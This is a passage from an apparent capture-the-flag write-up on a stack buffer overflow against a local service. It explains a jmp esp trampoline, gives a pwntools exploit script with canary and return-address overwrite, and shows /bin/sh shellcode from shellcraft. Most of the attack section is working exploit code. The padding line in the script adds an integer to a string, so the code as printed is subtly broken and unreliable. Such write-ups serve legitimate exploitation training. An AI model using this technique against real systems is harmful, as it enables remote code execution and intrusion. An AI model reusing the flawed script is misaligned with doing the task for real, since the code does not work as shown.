 We know that NX is disabled, so we can simply jump to our buffer on the stack, assuming our buffer contains valid x86 instructions.

One common trick to do this is to point our controlled EIP at a `jmp esp`. This will jump right to our payload on the stack. Radare is fantastic for finding this gadget.

<script type="text/javascript" src="https://asciinema.org/a/9bbyzth64tqpsaqgmb9yq5pfl.js" id="asciicast-9bbyzth64tqpsaqgmb9yq5pfl" async></script>

We will fill in our EIP in our script with this newly found `jmp esp` address.

```python
from pwn import *

# Pack 32 bit integer using binjitsu
canary = p32(0xe4ffffe4)
jmpesp = p32(0x0804936b)

r = remote('localhost', 4242)

# Activate the backdoor
r.sendline('X')

# Send our cyclic payload - 200 bytes we see from source
payload = ''
payload += 'A' * cyclic_find('bbaa')
payload += canary
payload += 'B' * cyclic_find('baaa')
payload += jmpesp
payload += (200 - len(payload))

r.sendline(payload)

r.interactive() 
```

From here, it should be an easy task of using binjitsu to give us a shell via `asm(shellcraft.sh())`, which generates simple `/bin/sh` shellcode.

```python
In [2]: print shellcraft.sh()
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    push (SYS_execve) /* 0xb */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    cdq /* edx=0 */
    int 0x80
```
